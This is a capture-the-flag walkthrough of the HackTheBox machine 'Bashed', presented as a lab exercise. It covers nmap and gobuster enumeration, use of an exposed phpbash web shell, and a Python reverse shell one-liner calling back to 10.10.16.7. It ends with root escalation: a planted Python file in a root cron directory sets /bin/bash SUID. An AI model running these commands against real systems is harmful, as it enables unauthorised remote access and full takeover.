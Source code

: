 ### Bashed HackTheBox

### Difficulty = Easy

### IP Address = 10.10.10.68

Nmap Scan:

```
                                                                                                                                                                                                                   
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Bashed]
└─$ nmap -sCV -A 10.10.10.68 -p80 -oN nmapscan
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-29 01:46 WAT
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.68
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.79 seconds
```

Checking the web page shows this
![image](https://user-images.githubusercontent.com/113513376/215297851-30237604-833e-4e17-8c9c-a0469eb136d6.png)

Only one blog post on reading i get this
![image](https://user-images.githubusercontent.com/113513376/215297885-fdc29c4a-ee69-4b72-bb8d-858b55c068e4.png)

```
phpbash helps a lot with pentesting.
I have tested it on multiple different servers and it was very useful. 
I actually developed it on this exact server!
```

Cool he says he developed it on this exact server 

Now lets fuzz for directories

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Bashed]
└─$ gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/dirb/common.txt 2>/dev/null 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2023/01/29 01:54:59 Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
===============================================================
2023/01/29 01:56:51 Finished
===============================================================
```

Cool we have /dev directory lets see its content
![image](https://user-images.githubusercontent.com/113513376/215298050-bdb38ed3-5768-49e4-b48d-c2f7d43b1bcc.png)

Now thats interesting we have the phpbash shell in it

Lets open it up 
![image](https://user-images.githubusercontent.com/113513376/215298081-413a393a-4463-42cc-9529-acc7ade9079e.png)

Now lets get a stable reverse shell

```
┌──(mark__haxor)-[~/Desktop/Tools]
└─$ ./shellgen.sh -t python -I tun0 -p 80          
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Now back on the listener

```
┌──(mark__haxor)-[~/Desktop/B2B/HTB/Bashed]
└─$ nc -lvnp 80                               
listening on [any] 80 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.68] 46308
$ 

```

Now lets stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL + Z
stty raw -echo;fg
reset
```

Checking for sudo permission for user www-data shows we can run ALl as scriptmanager

```
www-data@bashed:/$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Now lets get shell as scriptmanager

```
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$ cd   
scriptmanager@bashed:~$ ls -al
total 28
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 4 root          root          4096 Dec  4  2017 ..
-rw------- 1 scriptmanager scriptmanager    2 Dec  4  2017 .bash_history
-rw-r--r-- 1 scriptmanager scriptmanager  220 Dec  4  2017 .bash_logout
-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec  4  2017 .bashrc
drwxr-xr-x 2 scriptmanager scriptmanager 4096 Dec  4  2017 .nano
-rw-r--r-- 1 scriptmanager scriptmanager  655 Dec  4  2017 .profile
```

Now i'll upload pspy and run it

On running it i see a cron process running as root 

```
2023/01/28 17:11:01 CMD: UID=0    PID=15879  | /usr/sbin/CRON -f 
2023/01/28 17:11:01 CMD: UID=0    PID=15881  | python test.py 
2023/01/28 17:11:01 CMD: UID=0    PID=15880  | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done 
```

Now lets check out the /scripts directory

```
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.
cat: test.: No such file or directory
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt;echo
testing 123!
scriptmanager@bashed:/scripts$ 
```

Now here' what the cron does

```
1. It changed directory to /scripts
2. It then does a loop to run any python on any file which has an extension .py in that directory
3. After that it stops
```

Cool from this we know that any py file in that directory will be run as root

And also we have write access over that directory

So lets create a malicious python file to set bash as suid

```
scriptmanager@bashed:/scripts$ cat suid.py 
import os

os.system("chmod +s /bin/bash")
scriptmanager@bashed:/scripts$
```

Now we wait xD

After few seconds the cron runs and execute all *.py program
Now lets get root

```
scriptmanager@bashed:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:~$ bash -p
bash-4.3# cd /root
bash-4.3# ls -al
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
-r--------  1 root root   33 Jan 28 16:42 root.txt
bash-4.3#
```

And we're done


<br> <br>
[Back To Home](../../index.md)
<br>
